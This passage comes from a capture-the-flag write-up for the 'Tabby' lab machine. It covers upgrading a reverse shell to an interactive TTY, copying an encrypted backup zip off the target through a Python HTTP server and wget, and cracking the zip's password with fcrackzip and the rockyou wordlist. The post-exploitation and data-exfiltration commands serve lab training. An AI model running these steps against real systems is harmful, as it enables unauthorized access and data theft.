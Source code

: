 Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the _tomcat_ user and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

## **Privilege Escalation** <a id="5805"></a>

The first thing to do when you get initial access on the box is to enumerate the filesystem to see if there are any cleartext passwords. While doing that, we find a backup file that is encrypted.

```text
tomcat@tabby:/var/www/html/files$ unzip 16162020_backup.zip Archive:  16162020_backup.zip
checkdir error:  cannot create var
                 Read-only file system
                 unable to process var/www/html/assets/.
[16162020_backup.zip] var/www/html/favicon.ico password:
```

The fact that it is password protected means that it contains sensitive information. So let’s transfer the file back to our attack machine.

Setup a python server on the target machine.

```text
python3 -m http.server 5555
```

Then download the zip file on the attack machine.

```text
wget http://10.10.10.194:5555/16162020_backup.zip
```

Use fcrackzip to crack the password.

```text
rana@kali:~/Desktop/htb/tabby/user$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip possible pw found: admin@it ()
```

It discovers the password! Use it to unzip the file.
